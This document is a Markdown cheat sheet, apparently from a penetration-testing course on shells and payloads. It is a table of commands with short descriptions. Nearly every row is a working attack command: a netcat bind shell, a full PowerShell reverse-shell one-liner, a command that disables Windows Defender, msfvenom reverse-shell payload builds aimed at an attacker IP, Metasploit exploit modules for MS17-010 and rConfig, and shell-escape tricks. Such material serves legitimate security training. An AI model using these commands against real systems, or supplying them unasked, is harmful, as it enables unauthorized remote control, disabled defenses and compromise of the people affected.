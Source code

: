 | **Commands**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | **Description**                                                                                                                                                                                         |     |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!`                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol                                                                                                                    |     |
| `env`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use                             |     |
| `sudo nc -lvnp <port #>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | Starts a `netcat` listener on a specified port                                                                                                                                                          |     |
| `nc -nv <ip address of computer with listener started><port being listened on>`                                                                                                                                                                                                                                                                                                                                                                                                                                                     | Connects to a netcat listener at the specified IP address and port                                                                                                                                      |     |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f`                                                                                                                                                                                                                                                                                                                                                                                                                                 | Uses netcat to bind a shell (`/bin/bash`) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |     |
| `"powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(ip,443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \| Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`" | `Powershell` one-liner used to connect back to a listener that has been started on an attack box                                                                                                        |     |
| `Set-MpPreference -DisableRealtimeMonitoring $true`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | Powershell command using to disable real time monitoring in `Windows Defender`                                                                                                                          |     |
| `use exploit/windows/smb/psexec`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec`                                                                         |     |
| `shell`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | Command used in a meterpreter shell session to drop into a `system shell`                                                                                                                               |     |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`                                                                                                                                                                                                                                                                                                                                                                                                                                      | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`                                                                                                                     |     |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`                                                                                                                                                                                                                                                                                                                                                                                                                                        | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                                                                                                       |     |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`                                                                                                                                                                                                                                                                                                                                                                                                                                    | MSFvenom command used to generate a MacOS-based reverse shell payload                                                                                                                                   |     |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp`                                                                                                                                                                                                                                                                                                                                                                                                                                  | MSFvenom command used to generate a ASP web reverse shell payload                                                                                                                                       |     |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`                                                                                                                                                                                                                                                                                                                                                                                                                                       | MSFvenom command used to generate a JSP web reverse shell payload                                                                                                                                       |     |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war`                                                                                                                                                                                                                                                                                                                                                                                                                                       | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload                                                                                                                   |     |
| `use auxiliary/scanner/smb/smb_ms17_010`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | Metasploit exploit module used to check if a host is vulnerable to `ms17_010`                                                                                                                           |     |
| `use exploit/windows/smb/ms17_010_psexec`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010                                                                                 |     |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce`                                                                                                                                                                                                                                                                                                                                                                                                                                                                       | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6`                                                                               |     |
| `python -c 'import pty; pty.spawn("/bin/sh")'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | Python command used to spawn an `interactive shell` on a linux-based system                                                                                                                             |     |
| `/bin/sh -i`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Spawns an interactive shell on a linux-based system                                                                                                                                                     |     |
| `perl —e 'exec "/bin/sh";'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         | Uses `perl` to spawn an interactive shell on a linux-based system                                                                                                                                       |     |
| `ruby: exec "/bin/sh"`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | Uses `ruby` to spawn an interactive shell on a linux-based system                                                                                                                                       |     |
| `Lua: os.execute('/bin/sh')`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        | Uses `Lua` to spawn an interactive shell on a linux-based system                                                                                                                                        |     |
| `awk 'BEGIN {system("/bin/sh")}'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   | Uses `awk` command to spawn an interactive shell on a linux-based system                                                                                                                                |     |
| `find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`                                                                                                                                                                                                                                                                                                                                                                                                                                                             | Uses `find` command to spawn an interactive shell on a linux-based system                                                                                                                               |     |
| `find . -exec /bin/sh \; -quit`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | An alternative way to use the `find` command to spawn an interactive shell on a linux-based system                                                                                                      |     |
| `vim -c ':!/bin/sh'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape "jail-shells"                                                                                                           |     |
| `ls -la <path/to/fileorbinary>`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | Used to `list` files & directories on a linux-based system and shows the permission for each file in the chosen directory. Can be used to look for binaries that we have permission to execute          |     |
| `sudo -l`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           | Displays the commands that the currently logged on user can run as `sudo`                                                                                                                               |     |
| `/usr/share/webshells/laudanum`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     | Location of `laudanum webshells` on ParrotOS and Pwnbox                                                                                                                                                 |     |
| `/usr/share/nishang/Antak-WebShell`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | Location of `Antak-Webshell` on Parrot OS and Pwnbox                                                                                                                                                    |     |
|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |                                                                                                                                                                                                         |     |
